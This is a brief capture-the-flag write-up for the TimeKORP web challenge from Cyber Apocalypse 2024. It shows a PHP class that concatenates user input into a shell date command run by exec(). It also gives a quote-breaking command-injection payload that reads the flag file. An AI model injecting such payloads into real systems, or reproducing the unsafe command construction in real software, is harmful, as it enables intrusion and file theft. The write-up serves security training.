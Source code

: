 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | TimeKORP Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: web
challenge: TimeKORP
tags: "web, twh, rce"
date: 2024-03-16T00:00:00+00:00
last_modified_at: 2024-03-16T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2024</h1>

## TimeKORP
> Solved By : thewhiteh4t


- TimeModel.php is vulnerable

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

- specifically :

```
$this->command = "date '+" . $format . "' 2>&1";
```

- we just need to match single quotes and insert cat command in between so payload becomes :

```bash
';cat /flag;'
```

![](https://i.imgur.com/BhQqnTJ.png)

